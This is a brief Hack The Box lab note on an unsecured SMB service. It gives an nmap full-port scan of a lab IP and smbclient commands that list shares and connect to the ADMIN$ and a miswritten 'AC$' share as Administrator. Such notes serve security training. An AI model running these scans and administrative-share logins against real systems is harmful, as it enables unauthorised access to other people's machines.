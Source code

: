 ## unsecured SMB

in case of this hack the box the port was hidden / inaktive
```sh
nmap -p- -sV -sC -Pn --min-rate=100000 10.129.206.31
```


```sh
sudo apt install smbclient
```

```sh
smbclient -L 10.129.206.31 -U Administrator

smbclient \\\\10.129.206.31\\ADMIN$ -U Administrator #with folder ADMIN$
smbclient \\\\10.129.206.31\\AC$ -U Administrator #with folder C



```